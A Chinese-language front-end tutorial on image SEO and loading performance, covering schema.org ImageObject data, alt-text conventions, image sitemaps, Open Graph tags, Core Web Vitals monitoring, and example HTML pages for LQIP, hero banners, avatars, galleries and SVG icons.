搜索引擎（Google、百度、Bing 等）无法直接"理解"图像内容，需要通过**结构化数据、语义化标签、文件命名规范**等信号来辅助理解。正确的图像 SEO 策略可以显著提升**图片搜索排名**和**网页整体 SEO 表现**。

### schema.org ImageObject 结构化数据

使用 JSON-LD 格式为页面中的关键图像添加 **Schema.org ImageObject** 结构化数据，帮助搜索引擎理解图像的语义信息。

```html
<!-- 在 <head> 或页面中嵌入 JSON-LD 结构化数据 -->
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "ImageObject",
  "name": "2024 年款蓝色 iPhone 15 Pro 正面展示图",
  "description": "苹果 iPhone 15 Pro 蓝色钛金属版本正面视角产品照片",
  "url": "https://cdn.example.com/products/iphone-15-pro-blue.webp",
  "contentUrl": "https://cdn.example.com/products/iphone-15-pro-blue.webp",
  "thumbnailUrl": "https://cdn.example.com/products/iphone-15-pro-blue-thumb.webp",
  "width": 1200,
  "height": 800,
  "encodingFormat": "image/webp",
  "uploadDate": "2024-03-15T08:00:00+08:00",
  "copyrightHolder": {
    "@type": "Organization",
    "name": "Your Brand Name"
  },
  "license": "https://creativecommons.org/licenses/by-sa/4.0/",
  "acquireLicensePage": "https://example.com/license",
  "creator": {
    "@type": "Person",
    "name": "张三"
  }
}
</script>
```

::: tip 关键字段说明
- **`contentUrl` / `url`**：必填，图像的实际访问地址
- **`width` / `height`**：推荐填写，帮助搜索引擎理解尺寸
- **`encodingFormat`**：推荐填写，如 `image/webp`、`image/jpeg`
- **`license`**：使用许可信息，有助于知识图谱构建
:::

### 文件名与 Alt 命名规范

| 场景 | ❌ 不推荐 | ✅ 推荐 | 说明 |
|------|----------|---------|------|
| **文件名** | `img_001.jpg`、`DSC_1234.png`、`截图(1).jpg` | `blue-iphone-15-pro-front-view.webp` | 使用描述性英文短横线命名 |
| **Alt 文本** | `图片`、`图像`、`001.jpg` | `蓝色钛金属 iPhone 15 Pro 正面展示图` | 准确描述内容，不含"图片"前缀 |
| **装饰性图** | `alt="分隔线图片"` | `alt=""` + `aria-hidden="true"` | 装饰性图像使用空 alt |
| **功能图标** | `alt="搜索图标"` | `alt="搜索"` 或按钮已有文本时 `alt=""` | 描述功能而非外观 |
| **复杂图表** | 一段超长文字 | 简要描述 + 用 `aria-describedby` 链接详细说明 | 平衡简洁与完整 |

```html
<!-- ✅ 完整示例：电商商品主图 -->
<figure itemscope itemtype="https://schema.org/ImageObject">
  
  <meta itemprop="width" content="1200" />
  <meta itemprop="height" content="800" />
  <meta itemprop="encodingFormat" content="image/webp" />
  <figcaption itemprop="caption">红色男士跑鞋 — 侧面视角高清图</figcaption>
</figure>
```

### sitemap-image.xml 模板

创建专门的**图像 Sitemap** 可以加速搜索引擎发现和收录你的图像资源。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9"
        xmlns:image="http://www.google.com/schemas/sitemap-image/1.1">

  <!-- 商品页 + 主图 -->
  <url>
    <loc>https://example.com/products/blue-iphone-15-pro</loc>
    <image:image>
      <image:loc>https://cdn.example.com/products/iphone-15-pro-blue.webp</image:loc>
      <image:title>蓝色 iPhone 15 Pro 产品图</image:title>
      <image:caption>苹果 iPhone 15 Pro 蓝色钛金属版本正面视角产品照片</image:caption>
      <image:geo_location>中国北京</image:geo_location>
      <image:license>https://example.com/license</image:license>
    </image:image>

    <!-- 同一页面可包含多张图片 -->
    <image:image>
      <image:loc>https://cdn.example.com/products/iphone-15-pro-blue-detail.webp</image:loc>
      <image:title>iPhone 15 Pro 细节特写</image:title>
      <image:caption>Action 按钮和 USB-C 接口细节展示</image:caption>
    </image:image>
  </url>

  <!-- 文章页 + 配图 -->
  <url>
    <loc>https://example.com/blog/best-running-shoes-2024</loc>
    <image:image>
      <image:loc>https://cdn.example.com/blog/best-running-shoes-cover.webp</image:loc>
      <image:title>2024 最佳跑鞋评测封面</image:title>
      <image:caption>10 款主流跑鞋横评对比测试结果</image:caption>
    </image:image>
  </url>

</urlset>
```

::: tip 提交方式
1. 将 sitemap-image.xml 上传到网站根目录
2. 在 robots.txt 中声明：`Sitemap: https://example.com/sitemap-image.xml`
3. 在 Google Search Console 和百度站长平台提交
:::

### Open Graph / Twitter Card 标签模板

社交媒体分享时的图像展示效果直接影响点击率（CTR）。配置好 OG 标签和 Twitter Card：

```html
<head>
  <!-- ===== Open Graph 协议（Facebook、微信、LinkedIn 等）===== -->
  <meta property="og:type" content="website" />
  <meta property="og:url" content="https://example.com/article/image-seo-guide" />
  <meta property="og:title" content="2024 图像 SEO 完全指南 — 从 Alt 到 Schema" />
  <meta property="og:description" content="掌握图像优化的核心技术，提升 Google 图片搜索排名和社交媒体分享效果。" />
  
  <!-- OG 图像要求：
       - 推荐尺寸：1200 x 630 px
       - 文件大小：< 8MB
       - 格式：PNG、JPEG、WebP
       - 必须使用绝对 URL
  -->
  <meta property="og:image" content="https://cdn.example.com/og/image-seo-guide-1200x630.webp" />
  <meta property="og:image:width" content="1200" />
  <meta property="og:image:height" content="630" />
  <meta property="og:image:alt" content="图像 SEO 指南封面图：展示了从文件命名到结构化数据的优化流程" />
  <meta property="og:image:type" content="image/webp" />
  <meta property="og:locale" content="zh_CN" />

  <!-- ===== Twitter Card ===== -->
  <meta name="twitter:card" content="summary_large_image" />  <!-- 大图模式 -->
  <meta name="twitter:site" content="@your_handle" />
  <meta name="twitter:creator" content="@author_handle" />
  <meta name="twitter:title" content="2024 图像 SEO 完全指南" />
  <meta name="twitter:description" content="掌握图像优化核心技术，提升图片搜索排名。" />
  <meta name="twitter:image" content="https://cdn.example.com/twitter/image-seo-guide-1200x600.webp" />
  
  <!-- Twitter 图像建议尺寸：1200 x 600 px -->
</head>
```

**社交平台图像规格速查：**

| 平台 | 推荐尺寸 | 最大文件 | 格式 |
|------|----------|----------|------|
| **Open Graph (FB/微信)** | 1200 × 630 px | 8 MB | PNG/JPEG/WebP |
| **Twitter Large Image** | 1200 × 600 px | 5 MB | PNG/JPEG/WebP |
| **LinkedIn Post** | 1200 × 627 px | 5 MB | PNG/JPEG |
| **小红书** | 1080 × 1440 px | 10 MB | JPEG/PNG |

### Core Web Vitals 与图像的关系

图像是影响 **Core Web Vitals**（核心 Web 指标）最重要的因素之一，特别是 **LCP（Largest Contentful Paint）** 和 **CLS（Cumulative Layout Shift）**。

#### LCP（最大内容绘制）

LCP 衡量页面中**最大可见元素**的渲染时间，通常是首屏大图。

```html
<!-- ✅ 优化 LCP 的图像策略 -->

<!-- 1. 预加载 LCP 图像资源 -->
<link rel="preload" as="image" href="hero-lcp-image.webp" type="image/webp" />

<!-- 2. 使用高优先级获取 -->


<!-- 3. 关键 CSS 内联，避免阻塞渲染 -->
<style>
  .hero-lcp {
    position: relative;
    width: 100%;
    aspect-ratio: 16 / 9;  /* 固定宽高比，防止 CLS */
    overflow: hidden;
  }
  .hero-lcp img {
    position: absolute;
    top: 0;
    left: 0;
    width: 100%;
    height: 100%;
    object-fit: cover;
  }
</style>
```

#### CLS（累积布局偏移）

CLS 衡量页面加载过程中**视觉稳定性**，未设置尺寸的图像是导致 CLS 的首要原因。

```javascript
/**
 * CLSMonitor — 图像导致的布局偏移监控工具
 *
 * 用于检测和报告由图像引起的 CLS 问题
 */
class CLSMonitor {
  constructor() {
    this.clsEntries = []
    this.init()
  }

  init() {
    // 使用 PerformanceObserver 监听 LayoutShift
    const observer = new PerformanceObserver((list) => {
      for (const entry of list.getEntries()) {
        if (!entry.hadRecentInput) { // 排除用户交互引起的偏移
          this.clsEntries.push({
            value: entry.value,
            sources: entry.sources?.filter(s =>
              s.node?.tagName === 'IMG'
            ),
            startTime: entry.startTime,
          })
        }
      }
    })

    observer.observe({ type: 'layoutshift', buffered: true })

    // 页面加载完成后输出报告
    window.addEventListener('load', () => {
      setTimeout(() => this.report(), 100)
    })
  }

  report() {
    const totalCLS = this.clsEntries.reduce((sum, e) => sum + e.value, 0)
    const imageRelated = this.clsEntries.filter(e =>
      e.sources && e.sources.length > 0
    )

    console.group('📊 Image CLS Report')
    console.log(`Total CLS: ${totalCLS.toFixed(4)}`)
    console.log(`Image-related shifts: ${imageRelated.length}`)
    
    if (imageRelated.length > 0) {
      console.warn('⚠️ 以下图像导致了布局偏移：')
      imageRelated.forEach((entry, i) => {
        console.log(`  [${i + 1}] CLS: ${entry.value.toFixed(4)}`)
        entry.sources.forEach(src => {
          console.log(
            `      → <${src.node?.tagName.toLowerCase()}> ` +
            `${src.node?.src?.slice(-40)} ` +
            `[${src.currentRect?.width}×${src.currentRect?.height}]`
          )
        })
      })
      
      console.info('💡 修复建议：为以上图像添加 width/height 属性或使用 aspect-ratio')
    } else {
      console.log('✅ 未检测到图像相关的布局偏移')
    }
    
    console.groupEnd()
  }
}

// 页面中启用监控
if ('PerformanceObserver' in window) {
  new CLSMonitor()
}
```

::: warning 目标值
- **LCP ≤ 2.5 秒**（Good）
- **CLS ≤ 0.1**（Good）
- 图像是这两个指标的最大影响因素之一，务必优先优化
:::

## 实战案例集

<h4>040-image-lqip.html</h4>

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>【40】LQIP 渐进式加载效果</title>
  <!--
    来源: HTML5基础知识/5-图像.md
    知识点: Low Quality Image Placeholder 模糊→清晰过渡效果
  -->
  <style>
    * { margin: 0; padding: 0; box-sizing: border-box; }
    body {
      font-family: -apple-system, BlinkMacSystemFont, 'Segoe UI', sans-serif;
      padding: 20px; background: linear-gradient(135deg, #1a1a2e, #16213e);
      color: #e0e0e0; min-height: 100vh;
    }
    .container { max-width: 1100px; margin: 0 auto; }
    .header {
      text-align: center; padding: 24px; background: linear-gradient(135deg, #00cec9, #0984e3);
      color: white; border-radius: 12px; margin-bottom: 24px;
    }
    .header h1 { font-size: 22px; margin-bottom: 6px; }
    .header p { opacity: 0.9; font-size: 14px; }

    .card {
      background: rgba(255,255,255,0.05); border: 1px solid rgba(255,255,255,0.1);
      border-radius: 12px; padding: 24px; margin-bottom: 20px; backdrop-filter: blur(10px);
    }
    .card-title {
      font-size: 15px; font-weight: 600; color: #81ecec;
      border-left: 3px solid #00cec9; padding-left: 10px; margin-bottom: 16px;
    }

    .info-banner {
      background: rgba(0,206,201,0.1); border: 1px solid rgba(0,206,201,0.25);
      border-radius: 6px; padding: 12px 16px; font-size: 13px; line-height: 1.6;
      color: #81ecec; margin-bottom: 16px;
    }

    /* LQIP 展示网格 */
    .gallery-grid { display: grid; grid-template-columns: repeat(auto-fill, minmax(280px, 1fr)); gap: 20px; }

    .gallery-item {
      background: rgba(0,0,0,0.3); border-radius: 12px; overflow: hidden;
      position: relative;
    }

    .lqip-container {
      position: relative; width: 100%; aspect-ratio: 4/3; overflow: hidden;
    }

    .lqip-container .thumb-blur {
      position: absolute; inset: 0; background-size: cover; background-position: center;
      filter: blur(20px) saturate(1.5); transform: scale(1.1);
      transition: opacity 0.6s ease, visibility 0.6s ease;
    }

    .lqip-container .full-image {
      position: absolute; inset: 0; width: 100%; height: 100%;
      object-fit: cover; opacity: 0; transition: opacity 0.6s ease;
    }

    .lqip-container .full-image.loaded {
      opacity: 1;
    }

    .lqip-container .full-image.loaded ~ .thumb-blur {
      opacity: 0; visibility: hidden;
    }

    /* 加载指示器 */
    .loading-bar {
      position: absolute; bottom: 0; left: 0; height: 3px;
      background: linear-gradient(90deg, #00cec9, #0984e3);
      transition: width 0.3s ease; width: 0%;
    }

    .item-info {
      padding: 12px 16px; display: flex; justify-content: space-between;
      align-items: center;
    }
    .item-name { font-size: 13px; font-weight: 600; }
    .item-status {
      font-size: 11px; padding: 3px 10px; border-radius: 10px; font-weight: 600;
    }
    .item-status.loading { background: rgba(245,158,11,0.2); color: #fbbf24; }
    .item-status.done { background: rgba(34,197,94,0.2); color: #4ade80; }

    /* 对比展示 */
    .compare-section { margin-top: 24px; }
    .compare-row { display: grid; grid-template-columns: 1fr 1fr; gap: 20px; }
    @media (max-width: 700px) { .compare-row { grid-template-columns: 1fr; } }

    .compare-item {
      background: rgba(0,0,0,0.3); border-radius: 10px; overflow: hidden;
    }
    .compare-header {
      padding: 10px 16px; font-size: 13px; font-weight: 600; text-align: center;
    }
    .compare-header.bad { background: rgba(239,68,68,0.15); color: #fca5a5; }
    .compare-header.good { background: rgba(34,197,94,0.15); color: #86efac; }
    .compare-body {
      aspect-ratio: 16/10; display: flex; align-items: center; justify-content: center;
      background: #0a0a1a;
    }
    .compare-body img { max-width: 100%; max-height: 100%; object-fit: contain; border-radius: 4px; }

    .controls { display: flex; gap: 10px; flex-wrap: wrap; margin-bottom: 20px; }
    .btn {
      padding: 9px 20px; border: none; border-radius: 6px; cursor: pointer;
      font-size: 13px; font-weight: 600; transition: all 0.2s;
    }
    .btn-teal { background: #00cec9; color: #1a1a2e; }
    .btn-teal:hover { background: #00b5b0; transform: translateY(-1px); }
    .btn-outline {
      background: transparent; border: 1px solid rgba(0,206,201,0.4);
      color: #81ecec;
    }
    .btn-outline:hover { background: rgba(0,206,201,0.1); }

    /* 流程说明 */
    .flow-steps { display: flex; gap: 12px; margin-top: 16px; flex-wrap: wrap; justify-content: center; }
    .step {
      background: rgba(0,0,0,0.3); border: 1px solid rgba(255,255,255,0.1);
      border-radius: 8px; padding: 12px 16px; text-align: center; min-width: 130px;
    }
    .step-num {
      width: 24px; height: 24px; border-radius: 50%; background: #00cec9;
      color: #1a1a2e; font-size: 12px; font-weight: 700;
      display: inline-flex; align-items: center; justify-content: center; margin-bottom: 6px;
    }
    .step-text { font-size: 11px; color: #888; line-height: 1.4; }

    .compat-note {
      background: rgba(9,132,227,0.1); border: 1px solid rgba(9,132,227,0.25);
      border-radius: 6px; padding: 10px 14px; font-size: 12px; color: #74c0fc;
      margin-top: 16px;
    }
  </style>
</head>
<body>
  <div class="container">
    <div class="header">
      <h1>🌫️ LQIP 渐进式加载效果</h1>
      <p>Low Quality Image Placeholder — 模糊到清晰的优雅过渡体验</p>
    </div>

    <div class="card">
      <div class="card-title">🎨 LQIP 效果画廊</div>
      <div class="info-banner">
        💡 <strong>LQIP (Low Quality Image Placeholder)</strong> 是一种性能优化技术：<br>
        ① 先加载一张极小的模糊缩略图（通常 &lt; 2KB）作为占位 → ② 用户立即看到内容轮廓<br>
        ③ 后台加载高清原图 → ④ 高清图就绪后平滑过渡（模糊→清晰），用户几乎无感知等待。
      </div>

      <div class="controls">
        <button class="btn btn-teal" onclick="loadAllImages()">▶ 加载全部高清图</button>
        <button class="btn btn-outline" onclick="resetGallery()">🔄 重置画廊</button>
        <button class="btn btn-outline" onclick="toggleComparison()">👁 切换对比视图</button>
      </div>

      <div class="gallery-grid" id="galleryGrid"></div>

      <!-- 流程说明 -->
      <div class="flow-steps">
        <div class="step"><div class="step-num">1</div><div class="step-text">页面加载<br/>显示模糊缩略图<br/>(~20px 极小尺寸)</div></div>
        <div class="step"><div class="step-num">2</div><div class="step-text">CSS blur(20px)<br/>放大 1.1x<br/>无缝填充容器</div></div>
        <div class="step"><div class="step-num">3</div><div class="step-text">后台请求<br/>高清原图<br/>(async decode)</div></div>
        <div class="step"><div class="step-num">4</div><div class="step-text">原图就绪<br/>opacity 过渡<br/>0→1 (0.6s)</div></div>
        <div class="step"><div class="step-num">5</div><div class="step-text">隐藏模糊层<br/>高清图完全显示<br/>用户体验流畅 ✓</div></div>
      </div>
    </div>

    <!-- 对比视图 -->
    <div class="card compare-section" id="compareSection" style="display:none;">
      <div class="card-title">⚖️ 有无 LQIP 对比</div>
      <div class="compare-row">
        <div class="compare-item">
          <div class="compare-header bad">❌ 无 LQIP (传统方式)</div>
          <div class="compare-body" id="compareBad">
            <span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>
          </div>
        </div>
        <div class="compare-item">
          <div class="compare-header good">✅ LQIP 渐进式</div>
          <div class="compare-body" id="compareGood">
            <span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>
          </div>
        </div>
      </div>
    </div>

    <div class="compat-note">
      ℹ️ LQIP 技术本身是纯 CSS/JS 方案，不依赖任何特殊 API，<strong>所有浏览器均支持</strong>。
      关键在于：小图用 CSS <code>filter:blur()</code> 放大填充，大图通过 <code>opacity</code> 过渡叠加。
    </div>
  </div>

  <script>
    // 图库数据
    const galleryItems = [
      { name: '山间晨雾', seed: 'lqip-mountain' },
      { name: '城市夜景', seed: 'lqip-city' },
      { name: '海滩日落', seed: 'lqip-beach' },
      { name: '森林小径', seed: 'lqip-forest' },
      { name: '星空银河', seed: 'lqip-stars' },
      { name: '沙漠驼队', seed: 'lqip-desert' },
    ];

    const galleryGrid = document.getElementById('galleryGrid');

    function initGallery() {
      galleryGrid.innerHTML = '';

      galleryItems.forEach((item, i) => {
        // 极小的缩略图 URL (用于模糊背景)
        const thumbURL = `https://picsum.photos/seed/${item.seed}-thumb/40/30`;
        // 高清原图 URL
        const fullURL = `https://picsum.photos/seed/${item.seed}-full/400/300`;

        const el = document.createElement('div');
        el.className = 'gallery-item';
        el.innerHTML = `
          <div class="lqip-container" id="lqip-${i}">
            <div class="thumb-blur" id="blur-${i}" style="background-image:url('${thumbURL}')"></div>
            
            <div class="loading-bar" id="bar-${i}"></div>
          </div>
          <div class="item-info">
            <span class="item-name">${item.name}</span>
            <span class="item-status loading" id="status-${i}">等待加载</span>
          </div>
        `;
        galleryGrid.appendChild(el);

        // 预加载缩略图
        const thumbImg = new Image();
        thumbImg.onload = () => {
          document.getElementById(`blur-${i}`).style.backgroundImage = `url('${thumbURL}')`;
        };
        thumbImg.src = thumbURL;
      });
    }

    function loadAllImages() {
      galleryItems.forEach((item, i) => {
        const fullImg = document.getElementById(`full-${i}`);
        const bar = document.getElementById(`bar-${i}`);
        const status = document.getElementById(`status-${i}`);

        if (fullImg.classList.contains('loaded')) return; // 已加载

        status.textContent = '加载中...';
        status.className = 'item-status loading';

        // 模拟进度条
        let progress = 0;
        const progressInterval = setInterval(() => {
          progress += Math.random() * 30;
          if (progress > 90) progress = 90;
          bar.style.width = `${progress}%`;
        }, 150);

        fullImg.onload = function() {
          clearInterval(progressInterval);
          bar.style.width = '100%';

          // 触发过渡
          requestAnimationFrame(() => {
            requestAnimationFrame(() => {
              fullImg.classList.add('loaded');
            });
          });

          status.textContent = '已完成 ✓';
          status.className = 'item-status done';

          // 进度条淡出
          setTimeout(() => { bar.style.opacity = '0'; }, 400);
        };

        fullImg.onerror = function() {
          clearInterval(progressInterval);
          status.textContent = '加载失败';
          status.className = 'item-status done';
          bar.style.background = '#ef4444';
          bar.style.width = '100%';
        };

        // 开始加载
        fullImg.src = fullImg.dataset.src;

        // 同时更新对比视图
        updateCompare(item, fullURL, i);
      });
    }

    function updateCompare(item, url, index) {
      if (index !== 0) return; // 只更新第一张做对比

      const badEl = document.getElementById('compareBad');
      const goodEl = document.getElementById('compareGood');

      // 无 LQIP：空白直到加载完成
      badEl.innerHTML = ``;

      // 有 LQIP：先显示模糊
      goodEl.innerHTML = `
        <div style="position:relative;width:100%;height:100%;">
          <div style="position:absolute;inset:0;background:url('${url.replace('-full','-thumb')}') center/cover;filter:blur(15px);transform:scale(1.1);transition:opacity 0.6s;" id="cmpBlur"></div>
          
        </div>`;
    }

    function resetGallery() {
      initGallery();
      document.getElementById('compareBad').innerHTML = '<span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>';
      document.getElementById('compareGood').innerHTML = '<span style="color:#666;font-size:13px;">点击 "加载全部高清图" 查看</span>';
    }

    function toggleComparison() {
      const section = document.getElementById('compareSection');
      section.style.display = section.style.display === 'none' ? 'block' : 'none';
    }

    // 初始化
    initGallery();
  </script>
</body>
</html>
```

### 案例 1：英雄横幅（Hero Banner）

首屏大型横幅图片，需要高质量、响应式、性能优化。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>英雄横幅示例</title>
    <style>
      .hero {
        position: relative;
        width: 100%;
        height: 60vh;
        min-height: 400px;
        overflow: hidden;
      }

      .hero-image {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        object-fit: cover;
        object-position: center;
      }

      .hero-content {
        position: relative;
        z-index: 1;
        max-width: 1200px;
        margin: 0 auto;
        padding: 60px 20px;
        color: white;
      }
    </style>
  </head>
  <body>
    <!-- 预加载关键图像 -->
    <link rel="preload" as="image" href="hero-mobile.jpg" media="(max-width: 600px)" />
    <link rel="preload" as="image" href="hero-desktop.jpg" media="(min-width: 601px)" />

    <header class="hero">
      <picture>
        <!-- 移动端：竖屏图片 -->
        <source
          media="(max-width: 600px)"
          srcset="hero-mobile.webp 1x, hero-mobile@2x.webp 2x"
          type="image/webp" />
        <source media="(max-width: 600px)" srcset="hero-mobile.jpg 1x, hero-mobile@2x.jpg 2x" />

        <!-- 平板：中等尺寸 -->
        <source
          media="(max-width: 1024px)"
          srcset="hero-tablet.webp 1x, hero-tablet@2x.webp 2x"
          type="image/webp" />
        <source media="(max-width: 1024px)" srcset="hero-tablet.jpg 1x, hero-tablet@2x.jpg 2x" />

        <!-- 桌面端：横屏图片 -->
        <source srcset="hero-desktop.webp 1x, hero-desktop@2x.webp 2x" type="image/webp" />

        
      </picture>

      <div class="hero-content">
        <h1>夏季新品上市</h1>
        <p>全场五折起，限时优惠</p>
        <a href="/products">立即选购</a>
      </div>
    </header>
  </body>
</html>
```

**关键优化点：**

- 使用 `preload` 预加载关键图像
- 根据设备提供不同尺寸和方向的图片（艺术指导）
- 多格式支持（WebP 优先）
- 设置 `fetchpriority="high"` 确保优先加载
- 使用 `object-fit: cover` 保持宽高比

### 案例 2：用户头像

用户头像需要处理默认图片、错误回退、加载状态等。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>用户头像示例</title>
    <style>
      .avatar {
        position: relative;
        display: inline-block;
      }

      .avatar-img {
        width: 48px;
        height: 48px;
        border-radius: 50%;
        object-fit: cover;
        background-color: #f0f0f0;
      }

      .avatar-large .avatar-img {
        width: 120px;
        height: 120px;
      }

      .avatar-small .avatar-img {
        width: 32px;
        height: 32px;
      }

      /* 加载失败时显示默认头像 */
      .avatar-img.error {
        display: none;
      }

      .avatar::after {
        content: "";
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        border-radius: 50%;
        background-color: #e0e0e0;
        background-image: url('data:image/svg+xml,<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="%23999"><path d="M12 12c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm0 2c-2.67 0-8 1.34-8 4v2h16v-2c0-2.66-5.33-4-8-4z"/></svg>');
        background-size: 60%;
        background-position: center;
        background-repeat: no-repeat;
        opacity: 0;
        transition: opacity 0.2s;
      }

      .avatar.has-error::after {
        opacity: 1;
      }
    </style>
  </head>
  <body>
    <!-- 基础头像 -->
    <div class="avatar">
      
    </div>

    <!-- 大头像 -->
    <div class="avatar avatar-large">
      
    </div>

    <!-- 小头像 -->
    <div class="avatar avatar-small">
      
    </div>

    <script>
      // 统一处理头像加载错误
      document.querySelectorAll(".avatar-img").forEach((img) => {
        img.addEventListener("error", function () {
          this.classList.add("error")
          this.parentElement.classList.add("has-error")
        })
      })
    </script>
  </body>
</html>
```

**关键优化点：**

- 固定宽高比，防止布局偏移
- 使用 `object-fit: cover` 确保图片不变形
- 加载失败时显示默认头像（SVG 图标）
- 小头像使用懒加载
- 设置 `width` 和 `height` 属性

### 案例 3：文章配图

文章中的配图需要考虑可访问性、响应式、懒加载等。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>文章配图示例</title>
    <style>
      .article {
        max-width: 800px;
        margin: 0 auto;
        padding: 20px;
        font-size: 16px;
        line-height: 1.8;
      }

      .article-figure {
        margin: 24px 0;
      }

      .article-image {
        display: block;
        width: 100%;
        height: auto;
        border-radius: 8px;
        cursor: pointer;
        transition: transform 0.2s;
      }

      .article-image:hover {
        transform: scale(1.02);
      }

      .article-caption {
        margin-top: 8px;
        font-size: 14px;
        color: #666;
        text-align: center;
      }

      /* 图片占位符，防止布局偏移 */
      .article-figure::before {
        content: "";
        display: block;
        padding-bottom: 56.25%; /* 16:9 宽高比 */
        background-color: #f5f5f5;
      }

      .article-image {
        margin-top: -56.25%;
      }

      /* 高清图加载完成后隐藏占位符（:has 已被所有现代浏览器支持） */
      .article-figure:has(.article-image.loaded)::before {
        display: none;
      }

      .article-figure:has(.article-image.loaded) .article-image {
        margin-top: 0;
      }
    </style>
  </head>
  <body>
    <article class="article">
      <h1>探索宇宙的奥秘</h1>
      <p>宇宙是人类永恒的谜题...</p>

      <!-- 文章配图 1 -->
      <figure class="article-figure">
        
        <figcaption class="article-caption">
          哈勃望远镜拍摄的深空图像，展示了数千个星系（图片来源：NASA）
        </figcaption>
      </figure>

      <p>这些星系距离我们数十亿光年...</p>

      <!-- 文章配图 2 -->
      <figure class="article-figure">
        
        <figcaption class="article-caption">银河系螺旋结构示意图</figcaption>
      </figure>
    </article>
  </body>
</html>
```

**关键优化点：**

- 使用 `<figure>` 和 `<figcaption>` 语义化标签
- 提供详细的 `alt` 文本，描述图片内容
- 响应式图像，按需加载不同尺寸
- 懒加载非关键图像
- 占位符防止布局偏移
- 图片来源和版权信息

### 案例 4：图库/画廊

图库需要优化加载性能、提供交互体验。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>图库示例</title>
    <style>
      .gallery {
        display: grid;
        grid-template-columns: repeat(auto-fill, minmax(200px, 1fr));
        gap: 16px;
        max-width: 1200px;
        margin: 0 auto;
        padding: 20px;
      }

      .gallery-item {
        position: relative;
        aspect-ratio: 1;
        overflow: hidden;
        border-radius: 8px;
        cursor: pointer;
        background-color: #f5f5f5;
      }

      .gallery-image {
        width: 100%;
        height: 100%;
        object-fit: cover;
        transition: transform 0.3s;
      }

      .gallery-item:hover .gallery-image {
        transform: scale(1.1);
      }

      .gallery-overlay {
        position: absolute;
        bottom: 0;
        left: 0;
        right: 0;
        padding: 12px;
        background: linear-gradient(transparent, rgba(0, 0, 0, 0.7));
        color: white;
        font-size: 14px;
        opacity: 0;
        transition: opacity 0.3s;
      }

      .gallery-item:hover .gallery-overlay {
        opacity: 1;
      }

      /* 骨架屏加载效果 */
      .gallery-item.loading::before {
        content: "";
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        background: linear-gradient(90deg, #f0f0f0 25%, #e0e0e0 50%, #f0f0f0 75%);
        background-size: 200% 100%;
        animation: loading 1.5s infinite;
        z-index: 1;
      }

      @keyframes loading {
        0% {
          background-position: 200% 0;
        }
        100% {
          background-position: -200% 0;
        }
      }
    </style>
  </head>
  <body>
    <div class="gallery">
      <!-- 图片项 1 -->
      <article class="gallery-item loading">
        
        <div class="gallery-overlay">山间湖泊</div>
      </article>

      <!-- 图片项 2 -->
      <article class="gallery-item loading">
        
        <div class="gallery-overlay">日落海滩</div>
      </article>

      <!-- 更多图片... -->
    </div>

    <script>
      // 点击查看大图
      document.querySelectorAll(".gallery-item").forEach((item) => {
        item.addEventListener("click", function () {
          const img = this.querySelector(".gallery-image")
          const largeSrc = img.dataset.src
          // 打开灯箱或跳转到详情页
          console.log("查看大图:", largeSrc)
        })
      })
    </script>
  </body>
</html>
```

**关键优化点：**

- 使用网格布局，自适应列数
- 缩略图懒加载
- 骨架屏加载效果
- 悬停交互效果
- 点击查看大图功能
- 固定宽高比，防止布局偏移

### 案例 5：图标系统

使用 SVG 图标系统，支持多种颜色和尺寸。

```html
<!DOCTYPE html>
<html lang="zh-CN">
  <head>
    <meta charset="UTF-8" />
    <title>SVG 图标系统</title>
    <style>
      .icon {
        display: inline-block;
        width: 1em;
        height: 1em;
        fill: currentColor;
        vertical-align: middle;
      }

      .icon-large {
        font-size: 32px;
      }

      .button {
        display: inline-flex;
        align-items: center;
        gap: 8px;
        padding: 8px 16px;
        border: none;
        border-radius: 4px;
        background-color: #1890ff;
        color: white;
        cursor: pointer;
        font-size: 14px;
      }

      .button:hover {
        background-color: #40a9ff;
      }
    </style>
  </head>
  <body>
    <!-- SVG Sprite 方式 -->
    <svg style="display: none;">
      <symbol id="icon-home" viewBox="0 0 24 24">
        <path d="M10 20v-6h4v6h5v-8h3L12 3 2 12h3v8z" />
      </symbol>
      <symbol id="icon-search" viewBox="0 0 24 24">
        <path
          d="M15.5 14h-.79l-.28-.27A6.471 6.471 0 0 0 16 9.5 6.5 6.5 0 1 0 9.5 16c1.61 0 3.09-.59 4.23-1.57l.27.28v.79l5 4.99L20.49 19l-4.99-5zm-6 0C7.01 14 5 11.99 5 9.5S7.01 5 9.5 5 14 7.01 14 9.5 11.99 14 9.5 14z" />
      </symbol>
      <symbol id="icon-user" viewBox="0 0 24 24">
        <path
          d="M12 12c2.21 0 4-1.79 4-4s-1.79-4-4-4-4 1.79-4 4 1.79 4 4 4zm0 2c-2.67 0-8 1.34-8 4v2h16v-2c0-2.66-5.33-4-8-4z" />
      </symbol>
    </svg>

    <!-- 使用图标 -->
    <nav>
      <a href="/">
        <svg class="icon" aria-hidden="true">
          <use xlink:href="#icon-home"></use>
        </svg>
        首页
      </a>

      <button class="button">
        <svg class="icon" aria-hidden="true">
          <use xlink:href="#icon-search"></use>
        </svg>
        搜索
      </button>

      <svg class="icon icon-large" style="color: #52c41a;" aria-hidden="true">
        <use xlink:href="#icon-user"></use>
      </svg>
    </nav>
  </body>
</html>
```

**关键优化点：**

- 使用 SVG Sprite，减少 HTTP 请求
- 支持通过 `currentColor` 和 CSS 改变颜色
